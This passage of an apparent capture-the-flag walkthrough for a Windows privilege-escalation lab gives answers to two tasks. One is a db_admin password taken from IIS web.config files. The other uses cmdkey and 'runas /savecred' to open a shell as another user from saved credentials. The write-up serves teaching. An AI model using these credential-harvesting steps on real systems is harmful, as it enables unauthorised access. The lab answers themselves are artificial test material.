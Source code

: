 * A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

	`098n0x35skjD3`

	![task3-db_admin](./images/task3-db_admin.png)

* There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

	`THM{WHAT_IS_MY_PASSWORD}`

	* Windows credential
		
		```
		cmdkey /list
		runas /savecred /user:mike.katz cmd.exe
		```

		![task3-cmdkey](./images/task3-cmdkey.png)

	* Cmd.exe run as mike.katz
		
		![task3-flag](./images/task3-flag.png)
